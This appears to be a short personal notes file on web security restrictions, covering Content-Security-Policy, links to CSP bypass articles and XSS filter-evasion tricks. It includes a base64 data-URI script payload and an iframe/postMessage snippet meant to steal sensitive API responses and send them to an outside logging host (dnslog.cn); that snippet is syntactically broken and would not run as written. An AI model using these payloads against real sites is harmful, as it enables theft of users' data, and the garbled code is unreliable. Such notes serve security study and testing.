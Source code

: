 # Striction
## SOP
  __Same-Origin-Policy__



## CSP
   __Content-Security-Policy__, is a mechanism to define which resources can be fetched out or executed by a web page. In other words, it can be understood as a policy that decides which scripts, images, iframes can be called or executed on a particular page from different locations. Content Security Policy is implemented via response headers or meta elements of the HTML page. From there, it’s browser’s call to follow that policy and actively block violations as they are detected.
- [Bypass of CSP](https://csplite.com/csp320/)
- [content-security-policy-csp-bypass-techniques](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
```
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
- [bypassing-csp-with-policy-injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)
- Data protocol allowed: xss by iframe, combining postMessage to steal info
```html
<html>
<body>
<iframe id='attack' src="http://get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```

- script: self : combine the function of file upload
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)


# Filter
- keyword
- characteristic
  - [iframe srcdoc](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp.md#iframes-in-xss)
  - /xxx/.source
- 
